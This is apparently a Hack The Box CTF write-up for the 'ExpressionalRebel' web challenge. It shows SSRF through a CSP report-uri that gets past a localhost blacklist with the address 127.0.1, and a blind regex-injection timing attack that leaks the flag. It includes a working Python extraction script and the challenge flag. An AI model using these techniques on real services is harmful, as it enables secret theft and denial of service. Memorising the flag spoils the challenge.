




# [ ExpressionalRebel ](#)

### Description:
* We created created an AI a couple years ago, but recently became self aware and now is trying to erase humanity, could you stop it?

### Objective:
* RegexInjection

### Difficulty:
* `Medium`

### Flag:
* `HTB{b4cKtR4ck1ng_4Nd_P4rs3Rs_4r3_fuNnY}`


### Release:
* [release/web_expressionalrebel.zip](release/web_expressionalrebel.zip) (`e8fc682c002a95501d1c836b234c6b891e2983ff53a29390ac9caf53fdd287a9`)

## Challenge Write-up 📝

### Application overview

Opening the application homepage it displays a webpage with a form where we can submit a [CSP](https://developer.mozilla.org/es/docs/Web/HTTP/CSP):



After submitting the default CSP provided by the website a short evaluation of how secure that CSP is:


Additionally there is a `/deactive` endpoint but we don't seem to have access:


### Analyzing the source code

We can get the flag on the forbidden endpoint, here its the source code:
```javascript
router.get('/deactivate',isLocal, async (req, res) => {
	const { secretCode } = req.query;
	if (secretCode){
		const success = await validateSecret(secretCode);
		res.render('deactivate', {secretCode, success});
	} else {
		res.render('deactivate', {secretCode});
	}
});
```

Where the flag gets compared on `validateSecret`:
```javascript
const validateSecret = async (secret) => {
    try {
        const match = await regExp.match(secret, env.FLAG)
        return !!match;
    } catch (error) {
        return false;
    }
}
```

However the `/deactivate` endpoint seems to not be accessible, at least directly. Here is the middleware that is stopping us:
```javascript
module.exports = function isLocal(req, res, next) {
    if(req.socket.remoteAddress === '127.0.0.1' && req.header('host') === '127.0.0.1:1337'){
		next()
	} else {
		res.status(401);
		res.render('unauthorized');
	}
};
```

Interestingly enough `validateSecret` is vulnerable to RegexInjection which will be later discussed.

The second piece of the puzzle comes from the `/api/evaluate` endpoint, here is the source code:
```javascript
router.post('/evaluate', async (req, res) => {
	const { csp } = req.body;
    try {
        cspIssues = await evaluateCsp(csp);
        res.json(cspIssues)
            
    } catch (error) {
        res.status(400).send();
    }
})
```

If we take a deeper look to `evaluateCsp` it seems to have a SSRF vulnerability:
```javascript
const checkReportUri = async uris => {
    if (uris === undefined || uris.length < 1) return
    if (uris.length > 1) {
        return new Finding(405, "Should have only one report-uri", 100, 'report-uri')
    }    
    if(await isLocalhost(uris[0])) {
        return new Finding(310, "Destination not available", 50, 'report-uri', uris[0])
    }
    if (uris.length === 1) {
        try {
            available = await httpGet(uris[0])

        } catch (error) {
            return new Finding(310, "Destination not available", 50, 'report-uri', uris[0])
        }
    }

    return
}

const evaluateCsp = async csp => {
    const parsed = new CspParser(csp).csp;
    const reportUris = parsed.directives['report-uri'];

    let evaluatedCsp = new CspEvaluator(parsed).evaluate();
    reportUriFinding = await checkReportUri(reportUris)
    if (reportUriFinding) evaluatedCsp.push(reportUriFinding)
    evaluatedCsp = cspReducer(evaluatedCsp);
    return evaluatedCsp;
}
```

Nevertheless, we have to bypass the `isLocalhost` check:
```javascript
const isLocalhost = async (url) => {
    let blacklist = [
        "localhost",
        "127.0.0.1",
    ];
    let hostname = parse(url).hostname;
    return blacklist.includes(hostname);
};
```

### Bypassing the blacklist

It's checking the hostname using the old [NodeJS URL API](https://nodejs.org/api/url.html#legacy-url-api) but http builting module uses the new [NodeJS WHATWG URL API](https://nodejs.org/api/url.html#the-whatwg-url-api). This leads to a difference in how the blacklist and the actual http request parses the hostname so we may be able to bypass it. Another thing to bypass is the HOST header that need to be `127.0.0.1:1337`. All this conditions can be bypassed using CIDR IPs like `http://127.0.1:1337`.

We can check that it worked since when we add a `report-uri` that is blacklisted it displays a new issue:



Despite when we use de CIDR IP it doesn't show:



### Blind Regex Injection

First of all Regex Injection occurs when user input it's used to build a regular expression. That can be used to cause a DoS, because of backtracking.

To find a match, the regex engine will consume characters one by one. When a partial match begins, the engine will remember the start position so it can go back in case the following characters don't complete the match.

However that may cause "catastrophic backtracking" when the number of combinations is big enough, and most (not optimized) engines will try to explore all the paths and will take an eternity to try to find a match or throw a timeout exception.

We know can use the time limit on the regular expression to generate a boolean if a particular character matches our needs. A sample regex would be:
```
^(?=HTB{a)(((([a-zA-Z0-9{_]+)*)*)*)$
```

That example would cause a catastrophic backtracking,hence taking some time to get a response back from the server, if the flag starts with `HTB{A`.

### Solution

Once we know how we can get the flag character by character, created a sample script to automate it:
```
#!/usr/bin/env python3
import requests
from string import ascii_letters, digits

def makeRequest(flag):
    hostURL = "http://127.0.0.1:1337"   # Change to live version

    url = f"{hostURL}/api/evaluate"
    payload = f"^(?={flag})(((([a-zA-Z0-9{{_]%2B)*)*)*)$"
    headers = {"Content-Type": "application/json"}

    json={"csp": f"img-src https: data:;foobar-src 'foobar';report-uri http://127.0.1:1337/deactivate?secretCode={payload};"}
    r = requests.post(url, headers=headers, json=json)
    return r

def get_flag():
    flag = 'HTB{'
    dictionary = ascii_letters + digits + '_!}'
    while flag[-1] != '}':
        for char in dictionary:
            r = makeRequest(flag+char)
            time = r.elapsed.total_seconds()
            if time > 2:
                flag += char
                break
    print(flag)


get_flag()
```